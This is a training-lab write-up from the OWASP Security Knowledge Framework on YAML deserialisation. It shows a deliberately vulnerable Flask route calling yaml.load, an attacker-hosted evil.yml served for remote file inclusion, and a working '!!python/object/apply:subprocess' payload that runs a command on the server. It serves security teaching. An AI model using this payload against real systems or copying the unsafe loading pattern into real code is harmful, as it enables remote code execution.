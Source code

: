 # KBID 271 - Deserialisation Yaml

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-yaml
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step1

This application is using a .yaml file to use the content and display the content in the HTML. As you can see below the default .yaml file that is used on the server "file.yaml" and the contents of this file.  

![](.gitbook/assets/screen-shot-2019-01-31-at-12.29.14.png)

In the content of the .yaml file you can see it uses a key value pair -&gt; foo : value  
Also we can have a look at the documentation of the Python implementation for the .yaml file here:

{% embed url="https://yaml.readthedocs.io/en/latest/detail.html" %}

The application works by loading the URL as seen in the application and will use the default "file.yaml" to be processed by the application and parse the key value to display the content in the application as shown below.

![](.gitbook/assets/screen-shot-2019-01-31-at-12.29.26.png)

In the code example the "file" parameter is used to read the file from the filesystem but as you can see this is under the users control. Then this file is being used in the yaml.load method to parse the file and retrieve the value from it. Instead of just reading the intended text files from the file system, a potential attacker could abuse this function to also supply his own crafted yaml file that the attacker controls.

```python
@app.route("/information/&file=<path:filename>", methods=['GET'])
def deserialization(filename):
     print(filename, file=sys.stdout)
     if filename == 'file.yml':
         with open(filename, 'rb') as handle:
            if filename == 'file.yml':
                # Import the PyYAML dependency
                with open(filename) as yaml_file:
                # Unsafely deserialize the contents of the YAML file
                    content = yaml.load(yaml_file)
```

## Exploitation

#### Step1

A potential attacker can now tamper the "file" parameter to be able to supply his own .yaml file and that will be parsed by the application. For doing this type of attack we need to perform a Remote File Inclusion \(RFI\) attack. Its a similair attack as the Local File Inclusion \(LFI\) only instead of loading the files from the server \(local\) we going to load the files remote \(our webserver\). First we need to create a test.yaml file in our webserver and load this by the application.

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.yml")
def start():
    return render_template("evil.yml")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

In the above code example we can run our own webserver using Python Flask en we can render our evil.yml file and make it available to be included. For the evil.yml we will use the same key value object as in the example of the applciation.

```yaml
foo: woop woop
```

Now we have prepared our webserver and our evil.yml file we can try to have it loaded and parsed by the application.

![](.gitbook/assets/screen-shot-2019-01-31-at-13.06.53.png)

As you can see our setup for performing a RFI attack works and we can now let the application parse our files. Now lets try to create one with more dangerous characters that can trigger a parser error, for example.

```yaml
foo: !!lala'.,<>
```

![](.gitbook/assets/screen-shot-2019-01-31-at-13.03.23.png)

The parser returned an error and was not able to parse our dangerous characters in our supplied file.  
When we will search on Python Yaml injections on the internet we will learn that it's possible in Yaml and the Python implementation to invoke a subprocess that will allow us to excecute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
foo: !!python/object/apply:subprocess.check_output ['whoami']
```

![](.gitbook/assets/screen-shot-2019-01-31-at-13.15.33.png)

Now when we used the new evil file we can see it launched the subprocess and excecuted the "whoami" command and displayed the outcome in the application.

## Additional sources

{% embed url="https://www.owasp.org/index.php/Deserialization\_Cheat\_Sheet\#Python" %}

